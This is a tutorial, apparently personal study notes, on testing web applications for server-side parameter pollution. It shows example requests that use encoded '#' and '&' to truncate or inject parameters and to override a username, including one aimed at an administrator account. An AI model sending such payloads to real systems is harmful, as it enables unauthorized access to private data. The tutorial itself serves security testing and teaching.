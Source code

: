# 08. Testing for server-side parameter pollution in the query string

## 💉 **Server-Side Parameter Pollution (SSPP)**

> Server-side parameter pollution occurs when user input is embedded into server-side requests to internal APIs without proper encoding.
> 

This can allow attackers to:

- 🛠️ Override existing parameters
- 🔀 Modify application behavior
- 🔓 Access unauthorized data

---

## 🔍 **What to Test**

You can test **any user-controlled input** for parameter pollution, including:

- 🔹 Query parameters
- 🔹 Form fields
- 🔹 Headers
- 🔹 URL path parameters

---

## 📘 **Server-Side Parameter Pollution Example**

### 🧪 Request:

```
GET /userSearch?name=peter&back=/home

```

➡️ This results in an internal API call like:

```
GET /users/search?name=peter&publicProfile=true

```

---

## ✂️ **Truncating Query Strings**

You can use a **URL-encoded `#`** character (`%23`) to try and **truncate** the server-side query. Add a recognizable string after it for easier tracking.

🧪 Try:

```
GET /userSearch?name=peter%23foo&back=/home

```

➡️ Internal API becomes:

```
GET /users/search?name=peter#foo&publicProfile=true

```

> ⚠️ Note: Always URL-encode the #, otherwise the browser interprets it as a fragment and it won’t be sent to the server.
> 

📌 **Observe the response:**

- If **user `peter` is returned**, the query may have been truncated.
- If you get an **"Invalid name"** error, the server may be treating `foo` as part of the username → no truncation occurred.

✅ Successful truncation **may bypass requirements** like `publicProfile=true`, allowing access to **private profiles**.

---

## 💣 **Injecting Invalid Parameters**

Use a **URL-encoded `&`** (`%26`) to attempt **parameter injection**.

🧪 Try:

```
GET /userSearch?name=peter%26foo=xyz&back=/home

```

➡️ Internal API becomes:

```
GET /users/search?name=peter&foo=xyz&publicProfile=true

```

🔍 **Check the response**:

- If **unchanged**, the `foo=xyz` param may have been **accepted but ignored**
- You’ll need **further testing** to fully assess the behavior

---

## ✅ **Injecting Valid Parameters**

Once you know how to inject, try adding **valid parameters**.

📌 If you've discovered a hidden `email` parameter, try:

```
GET /userSearch?name=peter%26email=foo&back=/home

```

➡️ Internal API becomes:

```
GET /users/search?name=peter&email=foo&publicProfile=true

```

🔍 Review the response to determine how the **new parameter is parsed**.

---

## 🔁 **Overriding Existing Parameters**

To confirm SSPP, try **injecting a duplicate parameter** with the **same name**.

🧪 Try:

```
GET /userSearch?name=peter%26name=carlos&back=/home

```

➡️ Internal API becomes:

```
GET /users/search?name=peter&name=carlos&publicProfile=true

```

🧠 **Result depends on back-end tech:**

| Framework | Behavior |
| --- | --- |
| **PHP** | Uses **last param only** → returns **carlos** |
| **ASP.NET** | Combines → **peter,carlos** → error possible |
| **Node.js** | Uses **first param only** → still **peter** |

🎯 **If override works**, try:

```
name=administrator

```

→ This may let you **access admin accounts** or sensitive data!
